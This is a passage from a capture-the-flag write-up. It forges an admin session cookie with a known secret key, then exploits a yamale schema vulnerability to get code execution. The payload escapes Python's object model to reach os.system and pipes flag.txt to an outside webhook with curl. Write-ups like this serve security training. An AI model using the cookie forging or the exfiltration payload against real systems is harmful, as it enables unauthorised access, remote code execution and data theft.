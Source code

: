 Using the following command.

```bash
python cookie_generator.py encode -s 82f412b476f33a68fc9510d1b77ad9c5 -t '{"id": 1}'
```

Which results in the following cookie: `eyJpZCI6MX0.ZYL7gg.HUbj0yFMbcxw5ITkqsYsstVOGlA`, Ofcourse when running this for yourself don't forget to replace the token with your own.

![](images/scriptoutput.png)

We can replace our session cookie with this and after refreshing the page we seem to be logged in. Navigating to `/admin/schemas` presents us with a page where you can create new schemas.

![](images/adminpanel.png)

## Getting the flag

Now we can exploit the `yamale` vulnerability.
Lets create a new schema with the following payload.

```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("cat flag.txt | curl -X POST --data-binary @- https://webhook.site/REDACTED") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
```
